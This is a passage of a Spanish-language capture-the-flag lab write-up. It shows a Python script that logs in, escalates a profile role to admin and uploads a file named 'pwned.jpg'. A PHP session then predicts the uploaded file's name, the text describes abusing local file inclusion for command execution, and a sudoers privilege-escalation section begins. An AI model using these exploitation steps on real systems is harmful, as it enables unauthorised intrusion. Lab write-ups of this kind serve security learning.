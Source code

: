 ```python
admin_check_url = "http://10.10.10.10/admin_auth_check.php"

def makeRequest():

	s = requests.session()

	post_data = {
		'user' : 'aaron',
		'password' : 'aaron'
	}

	r = s.post(login_url, data=post_data)

	post_data = {
		'firstName' : 'test',
		'lastName' : 'test',
		'email' : 'test@test.htb',
		'company' : 'test',
		'role' : '1'
	}

	r = s.post(update_profile_url, data=post_data)
	
	with open("pwned.jpg", "rb") as img:
		uploadedFile = {'fileToUpload' : ('pwned.jpg', img)}

		r = s.post(upload_url, files=uploadedFile)
		print(r.text)

if __name__ == "__main__":
	makeRequest()
```

Ahora, para calcular el nombre de archivo, podemos hacer esto con **Php Interactive** a la par que subimos el archivo para posteriormente hacer una resta:
```
# php --interactive
> echo time(); # ejectuamos el script en python3 a la par que este comando
> echo md5('$file_hash' . "130204") . "_" . "pwned.jpg";
5f128b89198f891273ab18273fa
```

Ahora, simplemente intentamos listar el archivo en la siguiente ruta:
`http://10.10.10.10/images/uploads/<hash>_pwned.jgp` 

Y nos muestra simplemente un error. Pues ahora si, podriamos aprovecharnos del LFI para apuntar a este y ejecutar comandos:
![[Pasted image 20230728170423.png]]

#### Abusing Sudoers Privilege - Playing with symbolic links
Dentro de la maquina, si enumerarmos un poco, podemos dar un con **backup** dentro de la ruta **/opt/** con el cual podemos crear una copia y colocarlo en **/var/www/html/backup.zip** para descargarlo y verlo desde nuestra maquina.
